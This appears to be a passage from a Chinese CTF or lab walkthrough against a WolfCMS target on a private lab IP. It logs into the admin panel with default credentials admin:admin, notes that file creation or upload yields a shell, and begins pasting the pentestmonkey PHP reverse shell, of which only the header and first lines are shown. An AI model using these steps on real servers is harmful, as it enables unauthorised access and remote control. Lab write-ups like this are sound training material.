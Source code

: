 
> 
通过网页链接测试出后台登录页面：`http://192.168.246.134/wolfcms/?/admin/login`，尝试`admin:admin`成功登录后台


### getshell

> 
这里通过创建新文件或者上传文件都可以getshell


> 
利用Kali自带的php反弹shell的脚本


```
&lt;?php
phpinfo();
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
```